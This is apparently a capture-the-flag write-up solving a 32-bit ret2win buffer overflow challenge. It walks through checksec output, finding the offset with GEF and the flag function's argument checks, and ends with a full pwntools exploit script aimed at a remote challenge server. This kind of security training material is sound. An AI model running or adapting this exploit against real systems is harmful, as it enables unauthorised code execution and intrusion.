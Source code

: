 # You Know 0xdiablos
`Buffer Overflow` `32-Bits Binary` `Calling Convention`
<br>
<br>

First thing first, we are going to check the security for this binary using `checksec`, by doing that, we can get a clear information of what we're working with.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can see that we're working with a `32-bits` binary with `partial RELRO` and no other security setted up. Using gdb with GEF, I tried to list what function does the binary have, and found a function called `flag`, I tried to disas the main function but didn't find the `flag` function to be called anywhere, so I assume this is a `ret2win` in a 32-bits binary.

Next step is finding the padding, using GEF is kinda simple, you just need to use `pattern create` then copy the pattern created, run the binary, and paste the pattern, eventually it'll hit he limit.

```
gef➤  pattern offset $esp
[+] Searching for '$esp'
[+] Found at offset 192 (little-endian search) likely
```

We can see that the offset is 192, but don't forget, in 32-bits binary, the esp offset includes the eip in it, so the actual offset is `offset - 4` or `188`.

Before I jump to the flag function, I'd checked the flag function, it requires 2 parameters to be fulfilled in order to print the flag, those are:

```
   0x08049246 <+100>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x0804924d <+107>:	jne    0x8049269 <flag+135>
   0x0804924f <+109>:	cmp    DWORD PTR [ebp+0xc],0xc0ded00d
   0x08049256 <+116>:	jne    0x804926c <flag+138>
```

With the informations we've gathered, we can try to build the payload now, the payload will look like this

```
payload = offset + address of flag + padding + param 1 + param 2
```

**Quick Explanation** 
Once we pop the `address of flag` the eip need to be filled with something, here is where our padding do the job filling the 4 bytes empty space at eip.

Final Exploit:

```python
from pwn import *

binary = ('./vuln')
elf = context.binary = ELF(binary, checksec=False)

#p = process(binary)
p = remote('178.128.42.95',31777)

p.recv()

payload = b'a'*(192-4)
payload+= p32(elf.sym['flag'])
payload+= b'a'*4
payload+= p32(0xdeadbeef)
payload+= p32(0xc0ded00d)

p.sendline(payload)

p.interactive()
```

Run the Exploit to the server and we got the flag.
